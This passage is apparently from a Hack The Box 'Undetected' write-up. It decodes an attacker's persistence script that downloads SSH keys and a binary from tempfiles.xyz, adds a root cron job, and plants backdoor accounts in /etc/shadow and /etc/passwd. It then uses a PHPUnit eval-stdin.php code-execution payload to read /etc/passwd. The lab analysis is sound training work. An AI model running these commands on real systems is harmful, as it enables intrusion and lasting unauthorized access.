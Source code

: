 ```text
776765742074656d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f2<SNIP>
3a2467726f75703a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737<SNIP>
s342377643b20646f6e65203c2075736572732e7478743b20726d2075736572732e7478743b<SNIP>
[-] fork()
/etc/shadow
[.] checking if we got root
[-] something went wrong =(
```

## Decode With XXD

It's a lengthy output to look through but there's an obvious hex string which I decoded using xxd:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# echo 776765742074656d<SNIP>572732e7478743b | xxd -r -p | sed 's/;/\n/g'
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys
wget tempfiles.xyz/.main -O /var/lib/.main
chmod 755 /var/lib/.main
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd
while read -r user group home shell _
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt
rm users.txt
```

## Crack With JohnTheRipper

We see this is a script which looks to be copying files, setting a cronjob, adding a user and password, then tidying up. We can take the hash of the password from this line and crack it with JohnTheRipper:

```sh
echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow
```

We need the passwd file to see which user the hash is for:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /etc/passwd');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
```
